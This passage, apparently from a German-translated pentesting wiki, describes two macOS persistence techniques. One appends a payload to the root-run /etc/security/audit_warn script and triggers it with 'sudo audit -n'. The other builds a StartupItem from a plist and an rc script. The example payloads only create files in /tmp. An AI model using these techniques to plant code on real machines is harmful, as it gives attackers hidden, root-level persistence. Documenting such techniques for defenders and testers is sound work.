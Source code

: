 * **`/etc/security/audit_warn`**
* Root erforderlich
* **Auslöser**: Wenn auditd eine Warnung erkennt

#### Beschreibung & Exploit

Wann immer auditd eine Warnung erkennt, wird das Skript **`/etc/security/audit_warn`** **ausgeführt**. Du könntest also deinen Payload dort hinzufügen.
```bash
echo "touch /tmp/auditd_warn" >> /etc/security/audit_warn
```
You could force a warning with `sudo audit -n`.

### Startup Items

{% hint style="danger" %}
**Dies ist veraltet, daher sollte in diesen Verzeichnissen nichts gefunden werden.**
{% endhint %}

Der **StartupItem** ist ein Verzeichnis, das entweder innerhalb von `/Library/StartupItems/` oder `/System/Library/StartupItems/` positioniert sein sollte. Sobald dieses Verzeichnis eingerichtet ist, muss es zwei spezifische Dateien enthalten:

1. Ein **rc-Skript**: Ein Shell-Skript, das beim Start ausgeführt wird.
2. Eine **plist-Datei**, die speziell `StartupParameters.plist` genannt wird und verschiedene Konfigurationseinstellungen enthält.

Stellen Sie sicher, dass sowohl das rc-Skript als auch die `StartupParameters.plist`-Datei korrekt im **StartupItem**-Verzeichnis platziert sind, damit der Startprozess sie erkennen und nutzen kann.

{% tabs %}
{% tab title="StartupParameters.plist" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Description</key>
<string>This is a description of this service</string>
<key>OrderPreference</key>
<string>None</string> <!--Other req services to execute before this -->
<key>Provides</key>
<array>
<string>superservicename</string> <!--Name of the services provided by this file -->
</array>
</dict>
</plist>
```
{% endtab %}

{% tab title="superservicename" %}
```bash
#!/bin/sh
. /etc/rc.common

StartService(){
touch /tmp/superservicestarted
}

StopService(){
rm /tmp/superservicestarted
}

RestartService(){
echo "Restarting"
}
```